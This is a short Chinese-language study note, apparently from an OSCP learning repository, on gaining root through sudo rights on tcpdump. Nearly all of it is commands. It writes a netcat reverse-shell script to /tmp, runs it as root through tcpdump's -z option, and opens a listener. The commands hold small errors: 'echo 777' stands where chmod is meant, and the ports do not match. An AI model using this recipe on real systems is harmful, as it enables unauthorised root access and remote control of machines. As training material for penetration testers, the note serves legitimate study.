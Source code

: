 # tcpdump

`tcpdump` 若具有 `sudo` 权限,可通过调用反单脚本，用nc获取root权限

```
echo "mknod backpipe p && nc 192.168.*.* 8089 0<backpipe | /bin/bash -p 1>backpipe" >/tmp/.test
echo 777 /tmp/.test
sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.test -Z root


nc -lvpn 8888
```
![tcpdump](https://github.com/Nongcloud/oscp-Learn/tree/main/Privilege-Escalation/sudo/images/sudo-tcpdump.png)